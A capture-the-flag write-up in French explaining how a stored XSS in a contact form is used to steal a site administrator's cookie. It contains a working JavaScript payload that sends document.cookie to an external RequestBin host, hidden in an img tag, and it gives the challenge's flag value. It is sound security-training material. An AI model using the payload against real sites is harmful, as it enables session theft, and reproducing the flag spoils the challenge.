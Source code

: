 ## Challenges

### Web Client

### Challenge: XSS - Stockée 1

#### Problème

Ce défi consiste à trouver le flag.

#### Première étape :

La première étape était d'identifier la vulnérabilité, qui était une XSS (cross-site scripting). Pour tester cette faille, nous avons injecté un code javascript de base dans le formulaire de contact et observé l'apparition d'une pop-up, confirmant la présence de la vulnérabilité.

#### Deuxième étape :

Dans cette étape, notre objectif était de récupérer le Cookie de l’administrateur du site. Pour cela, nous avons construit une XSS avec un payload de Cookie.

**XSS avec un payload de Cookie:**

Le script Javascript utilisé était conçu pour être envoyé via un formulaire de contact. Lorsque l'administrateur du site consulte ce formulaire, le script envoie son cookie à un serveur externe.

Nous avons choisi d'insérer ce script dans une balise image `<img>` pour dissimuler le payload. Cette balise est particulièrement adaptée car elle est souvent utilisée pour charger des ressources externes sans susciter de suspicion. Ainsi, l'administrateur ne remarquerait pas la présence de code malveillant.

```javascript 
<script>document.write('<img src=\'https://requestb.in/xxxxx?cookie='+document.cookie+'\>admin</img>');</script>
```
une XSS peut se faire à partir d’un code Javascript mais pas uniquement.
```javascript 
<script></script>
```
Création du script où mon code sera interprété.

```javascript 
document.write
```
Le document.write sert à écrire du texte dans un document HTML. Il prend en paramètre ce qui se trouve entre les parenthèses.

```javascript 
document.write('<img src=\'https://requestb.in/xxxxx?cookie='+document.cookie+'\>admin</img>');
```

**Explication:**

L'utilisation de la balise image `<img>` permet de masquer le script, car elle est perçue comme un chargement d'image normal par l'administrateur.

Nous avons choisi d'utiliser un lien RequestBin : https://requestb.in/xxxxxxxxxxx. Le script inséré dans la balise image contenait une source pointant vers ce serveur, où nous avons ajouté le paramètre "cookie=" suivi de "document.cookie" pour capturer le cookie de session de l'administrateur.

Le cookie récupéré était : 
`cookie: ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6>admin</img></span><br/><hr/><span><b>admin</b></span><br/><span><script>document.write(`

#### Solution
Le cookie pour validation est donc : `NkI9qe4cdLIO2P7MIsWS8ofD6`
